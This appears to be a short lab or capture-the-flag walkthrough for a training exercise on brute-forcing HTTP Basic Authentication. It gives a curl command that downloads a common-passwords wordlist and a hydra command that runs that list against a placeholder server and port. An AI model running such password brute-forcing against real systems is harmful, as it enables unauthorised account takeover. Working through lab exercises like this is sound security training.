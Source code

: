 # Basic Authentication

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download a password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT 
  ```
  {% endcode %}

**Step 3** - Login into the application:

*   Login with the founded credentials.

    <figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

